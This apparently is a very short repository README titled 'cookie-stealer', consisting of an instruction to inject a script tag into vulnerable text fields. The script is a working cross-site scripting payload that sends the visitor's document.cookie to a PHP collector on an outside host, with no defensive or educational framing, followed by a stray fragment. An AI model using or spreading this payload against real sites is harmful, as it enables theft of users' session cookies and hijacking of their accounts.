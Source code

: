 # cookie-stealer

inject 
	<script language="javascript"> document.location= " http://kennethzhang.net/cookiegrab.php?c=" + document.cookie; </script>
into vulnerable text fields
Isded
